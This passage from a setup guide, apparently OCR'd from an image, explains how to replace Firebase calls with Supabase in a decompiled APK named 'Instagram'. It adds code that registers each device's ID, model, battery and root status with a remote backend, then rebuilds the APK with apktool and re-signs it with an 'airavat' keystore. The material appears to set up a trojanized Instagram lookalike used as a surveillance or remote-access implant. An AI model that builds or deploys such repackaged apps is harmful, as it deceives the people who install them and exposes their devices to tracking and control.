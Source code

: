 3. Replace all Firebase database calls with Supabase equivalents:

   **Before (Firebase):**
   ```java
   FirebaseDatabase database = FirebaseDatabase.getInstance();
   DatabaseReference ref = database.getReference("online/onlinetheoneandonly");
   ```

   **After (Supabase):**
   ```java
   SupabaseClient supabase = SupabaseClient.getInstance(this);
   String deviceId = DeviceInfoHelper.getDeviceId(this);
   supabase.registerDevice(deviceId, model, version, battery, rooted, callback);
   ```

### 3.4 Update Dependencies

1. Remove Firebase dependencies from `build.gradle`:
   ```gradle
   // Remove these
   implementation 'com.google.firebase:firebase-database'
   implementation 'com.google.firebase:firebase-storage'
   ```

2. Add HTTP client dependencies (if not already present):
   ```gradle
   // Add these for HTTP requests
   implementation 'com.squareup.okhttp3:okhttp:4.9.3'
   implementation 'org.json:json:20210307'
   ```

### 3.5 Recompile APK

1. Recompile the APK:
   ```bash
   apktool b Instagram -o Instagram_supabase.apk
   ```

2. Sign the APK (required for installation):
   ```bash
   # Generate key (one time only)
   keytool -genkey -v -keystore airavat.keystore -alias airavat -keyalg RSA -keysize 2048 -validity 10000
   
   # Sign APK
   jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore airavat.keystore Instagram_supabase.apk airavat
   
   # Align APK
   zipalign -v 4 Instagram_supabase.apk Instagram_final.apk
   ```

## Part 4: Vercel Deployment

### 4.1 Prepare Project

